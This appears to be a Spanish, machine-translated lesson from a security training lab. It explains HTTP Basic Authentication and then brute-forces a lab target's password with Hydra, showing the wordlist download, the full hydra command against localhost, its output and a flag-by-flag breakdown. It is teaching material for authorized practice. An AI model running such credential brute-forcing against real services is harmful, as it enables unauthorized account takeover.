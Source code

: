 # Autenticación básica de HTTP

Las aplicaciones web a menudo emplean mecanismos de autenticación para proteger datos y funcionalidades confidenciales. Autenticación HTTP básica, o simplemente`Basic Auth`, es un método rudimentario pero común para asegurar recursos en la web. Aunque es fácil de implementar, sus vulnerabilidades de seguridad inherentes lo convierten en un objetivo frecuente para los ataques de fuerza bruta.

En esencia, Basic Auth es un protocolo de respuesta a desafío donde un servidor web exige credenciales de usuario antes de otorgar acceso a recursos protegidos. El proceso comienza cuando un usuario intenta acceder a un área restringida. El servidor responde con un`401 Unauthorized`estado y un`WWW-Authenticate`Encabezado pide al navegador del usuario que presente un cuadro de diálogo de inicio de sesión.

Una vez que el usuario proporciona su nombre de usuario y contraseña, el navegador los concatena en una sola cadena, separada por un colon. Esta cadena se codifica usando base64 e incluida en el`Authorization`encabezado de solicitudes posteriores, siguiendo el formato`Basic <encoded_credentials>`. El servidor decodifica las credenciales, las verifica en su base de datos y otorga o niega el acceso en consecuencia.

Por ejemplo, los encabezados para la autenticación básica en una solicitud Get HTTP se verían como:

Código:http

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Explotación de autenticación básica con Hydra

**Para seguir, inicie el sistema de destino a través de la sección de preguntas en la parte inferior de la página.**

Usaremos el`http-get`Servicio Hydra para fuerza bruta El objetivo de autenticación básica.

En este escenario, la instancia de destino generada emplea la autenticación HTTP básica. Ya sabemos que el nombre de usuario es`basic-auth-user`. Como conocemos el nombre de usuario, podemos simplificar el comando HYDRA y centrarnos únicamente en la contraseña de forcedura bruta. Aquí está el comando que usaremos:

  Autenticación básica de HTTP

```shell-session
# Download wordlist if needed
xnoxos@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
xnoxos@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Desglosemos el comando:

- `-l basic-auth-user`: Esto especifica que el nombre de usuario para el intento de inicio de sesión es 'Basic-Auth-User'.
- `-P 2023-200_most_used_passwords.txt`: Esto indica que HYDRA debe usar la lista de contraseñas contenida en el archivo '2023-200_most_used_passwords.txt' para su ataque de fuerza bruta.
- `127.0.0.1`: Esta es la dirección IP de destino, en este caso, la máquina local (localhost).
- `http-get /`: Esto le dice a Hydra que el servicio de destino es un servidor HTTP y que el ataque debe realizarse utilizando HTTP GET SOLICIONES A LA RUTA ROOT ('/').
- `-s 81`: Esto anula el puerto predeterminado para el servicio HTTP y lo establece en 81.

Tras la ejecución, Hydra intentará sistemáticamente cada contraseña desde el`2023-200_most_used_passwords.txt`Archivo contra el recurso especificado. Eventualmente devolverá la contraseña correcta para`basic-auth-user`, que puede usar para iniciar sesión en el sitio web y recuperar la bandera.